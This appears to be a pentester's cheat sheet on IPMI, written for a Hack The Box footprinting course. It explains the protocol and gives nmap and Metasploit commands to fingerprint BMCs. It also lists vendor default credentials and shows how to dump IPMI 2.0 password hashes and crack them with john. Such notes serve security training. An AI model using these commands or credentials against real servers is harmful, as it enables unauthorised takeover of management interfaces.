 # IPMI

[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)

<div class="row row-cols-lg-2"><div>

Intelligent Platform Management Interface (IPMI) is a protocol used by system administrators to manage computers.

It's an out-of-band protocol so it works even if the system is turned off or unresponsive. It's independent and works independently of the CPU, BIOS, memory, firmware, and operating system.

🐊️ **Port**: 623 (UDP)

It can be used to monitor components such as temperature, voltage, fans, and power supplies. A system utilizing IPMI version 2.0 can be managed from a console via a serial connection.
</div><div>

IPMI requires multiple components <small>(BMC, ICMB, IPMB, etc.)</small>. BMCs are controlling the motherboard. The most common ones are:

* Supermicro
* HPE iLO <small>(formerly HP iLO)</small>
* Dell DRAC
* Aspeed AST
* ...
</div></div>

<hr class="sep-both">

## IPMI Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

If we gain access to a BMC, we can monitor, reboot, power off, or reinstall the operating system.

* We can use [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md) to find the IPMI version

```ps
$ nmap -sU --script ipmi-version -p 623 IP
```

* We can use [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) to find the IPMI version

```shell!
$ msfconsole -q
msf6> use auxiliary/scanner/ipmi/ipmi_version 
msf6> set RHOSTS IP
msf6> run
```
</div><div>

Default Passwords

* `ADMIN:ADMIN` (Supermicro)
* `Administrator:[A-Z0-9]{8}` (HPE iLO)
* `root:calvin` (Dell DRAC)

A flaw in IPMI 2.0 leads to the password hash being returned before authenticating. It can then be cracked offline.

```shell!
$ msfconsole -q
msf6> use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6> set RHOSTS IP
msf6> set OUTPUT_JOHN_FILE pjohn
msf6> run
msf6> exit
$ john pjohn -w /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt
```
</div></div>